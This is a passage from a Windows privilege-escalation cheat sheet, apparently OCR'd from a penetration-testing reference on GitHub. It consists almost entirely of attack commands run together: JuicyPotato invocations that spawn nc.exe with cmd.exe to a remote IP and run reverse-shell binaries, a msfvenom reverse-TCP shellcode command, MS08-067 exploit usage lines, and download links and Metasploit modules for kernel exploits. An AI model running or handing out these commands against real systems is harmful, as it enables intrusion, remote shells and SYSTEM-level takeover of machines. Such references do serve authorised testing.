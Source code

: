         JuicyPotato.exe -l 9999 -p c:\interpub\wwwroot\upload\nc.exe -a "IP PORT -e cmd.exe" -t t -c {B91D5831-B1BD-4608-8198-D72E155020F7}JuicyPotato.exe -l 1340 -p C:\users\User\rev.bat -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}JuicyPotato.exe -l 1337 -p c:\Windows\System32\cmd.exe -t * -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4} -a "/c c:\users\User\reverse_shell.exe"Testing {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4} 1337......[+] authresult 0{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4};NT AUTHORITY\SYSTEM[+] CreateProcessWithTokenW OK

## EoP - Common Vulnerabilities and Exposure

### MS08-067 (NetAPI)

Check the vulnerability with the following nmap script.

    nmap -Pn -p445 --open --max-hostgroup 3 --script smb-vuln-ms08-067 <ip_netblock>

Metasploit modules to exploit `MS08-067 NetAPI`.

    exploit/windows/smb/ms08_067_netapi

If you can’t use Metasploit and only want a reverse shell.

    https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.pymsfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 --platform windowsExample: MS08_067_2018.py 192.168.1.1 1 445 -- for Windows XP SP0/SP1 Universal, port 445Example: MS08_067_2018.py 192.168.1.1 2 139 -- for Windows 2000 Universal, port 139 (445 could also be used)Example: MS08_067_2018.py 192.168.1.1 3 445 -- for Windows 2003 SP0 UniversalExample: MS08_067_2018.py 192.168.1.1 4 445 -- for Windows 2003 SP1 EnglishExample: MS08_067_2018.py 192.168.1.1 5 445 -- for Windows XP SP3 French (NX)Example: MS08_067_2018.py 192.168.1.1 6 445 -- for Windows XP SP3 English (NX)Example: MS08_067_2018.py 192.168.1.1 7 445 -- for Windows XP SP3 English (AlwaysOn NX)python ms08-067.py 10.0.0.1 6 445

### MS10-015 (KiTrap0D) - Microsoft Windows NT/2000/2003/2008/XP/Vista/7

‘KiTrap0D’ User Mode to Ring Escalation (MS10-015)

    https://www.exploit-db.com/exploits/11199Metasploit : exploit/windows/local/ms10_015_kitrap0d

### MS11-080 (afd.sys) - Microsoft Windows XP/2003

    Python: https://www.exploit-db.com/exploits/18176Metasploit: exploit/windows/local/ms11_080_afdjoinleaf

### MS15-051 (Client Copy Image) - Microsoft Windows 2003/2008/7/8/2012

    printf("[#] usage: ms15-051 command \n");printf("[#] eg: ms15-051 \"whoami /all\" \n");# x32https://github.com/rootphantomer/exp/raw/master/ms15-051%EF%BC%88%E4%BF%AE%E6%94%B9%E7%89%88%EF%BC%89/ms15-051/ms15-051/Win32/ms15-051.exe# x64https://github.com/rootphantomer/exp/raw/master/ms15-051%EF%BC%88%E4%BF%AE%E6%94%B9%E7%89%88%EF%BC%89/ms15-051/ms15-051/x64/ms15-051.exehttps://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051use exploit/windows/local/ms15_051_client_copy_image

### MS16-032 - Microsoft Windows 7 < 10 / 2008 < 2012 R2 (x86/x64)
